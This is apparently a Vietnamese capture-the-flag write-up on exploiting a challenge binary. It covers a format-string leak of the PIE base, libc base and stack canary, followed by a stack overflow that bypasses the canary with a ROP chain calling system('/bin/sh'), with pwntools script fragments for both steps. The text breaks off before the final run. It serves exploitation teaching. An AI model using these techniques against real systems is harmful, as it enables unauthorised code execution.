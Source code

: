 ## Ý TƯỞNG
- Ta nhận thấy tồn tại lỗi Format String tại hàm slip() và ta có thể dùng bug đó để leak địa chỉ, canary hoặc ghi đè địa chỉ. Ngoài ra tại hàm stack_check_up cũng có thể dùng để khai thác vì sử dụng scanf(lấy dữ liệu đến khi gặp kí tự xuống dòng hoặc tab) và với việc leak được canary thì ta hoàn toàn có thể bypass để ghi đè địa chỉ trả về của hàm. 
- Vì không tồn tại một hàm nào có thể tạo shell vậy ta hướng đến việc tạo một ROPchain system("/bin/sh") để lấy được shell.

## KHAI THÁC
- Checksec:
![{40D2EB73-13BC-4E1A-BEB9-C21721EE57AF}](https://hackmd.io/_uploads/HyvzmqEjkx.png)
> Các phương pháp bảo mật như: RELRO, Canary, NX, PIE đều được bật.
- Leak address:
> Dừng tại lúc slip() lấy dữ liệu đầu vào để khảo sát stack:
> ![{BF89608D-667A-4843-A55F-B654B15D7217}](https://hackmd.io/_uploads/HkaQEcEsJg.png)
> Ta thấy rằng với FormatString ta hoàn toàn có thể leak được các địa chỉ của binary, libc và cả canary tại đây với %p với index thích hợp. Ta có script:
>```
> #Leak address by using choice 4 exsist format string bug
> sla(b'> ',b'4')
> sla(b'left?\n',f'%13$p%29$p%17$p'.encode())
> data =rl().split(b'0x')
> exe_leak = int(data[1],16)
> libc_leak = int(data[2],16)
> can = int(data[3],16)
> 
> exe.address = exe_leak - 0x1747
> info('Exe leak: ' + hex(exe_leak))
> info('Exe base: ' + hex(exe.address))
> libc.address = libc_leak - 0x28150
> info('Libc leak: ' + hex(libc_leak))
> info('Libc base: ' + hex(libc.address))
> info('Canary leak: '+ hex(can))
> ```
> Chạy script và kiểm tra liệu các giá trị được leak ra có hợp lệ:
> ![{A2BE521D-5934-44E9-9060-FD367CA7C0B1}](https://hackmd.io/_uploads/rJPXScVjkx.png)
> Vậy tất cả các giá trị và địa chỉ cần thiết đều được tính toán đúng.
- Cooking shell
> Với ý tưởng đã nêu, ta sẽ sử dụng hàm stack_check_up với điều kiện stack_life_point = 13 để ta có thể thực thi shell. Vậy trước hết ta cần nhập vào chương trình một lượng tùy chọn trừ điểm hợp lý để stack_life_point = 13 để việc nhập dữ liệu có thể được diễn ra: (100-13)/3=29. Vậy lựa chọn tối ưu nhất là lựa chọn 3 29 lần.
> Sau đó ta sẽ tiến hành khảo sát stack để nhập liệu hợp lý:
> ![{FC5EB094-5CC7-4FD4-9150-80D00F8B8337}](https://hackmd.io/_uploads/SJZpU9Voyl.png)
> Ta có thể xác định nhanh chóng địa chỉ saved rip của hàm nằm tại rsp + 0x28 và trước đó tại rsp + 0x18 là canary.
> Vậy ý tưởng ở đây là ta sẽ cho nhập vào 0x18 byte random và kế tiếp là giá trị của canary, sau đó là 8 byte bất kì cho rbp và địa chỉ của các gadget để lấy shell. (ở đây ta sử dụng ret; pop rdi; "/bin/sh"; libc.system). Ta có script:
> ```
> # Cooking shell
> # payload = p64(ret) + p64(prdi) + p64(next(libc.search(b"/bin/sh\0"))) + p64(libc.sym.system)
> prdi = libc.address + 0x28795
> ret = libc.address + 0x0000000000026a3e
> payload = b'a'*24 + p64(can) + b'a'*8 + p64(ret) + p64(prdi) + p64(next(libc.search(b'/bin/sh\0'))) + p64(libc.sym.system)
> for i in range(29):
>     sla(b'> ',b'3')
> sla(b'move: \n',payload)
> ```
> Ta cho chạy thử script: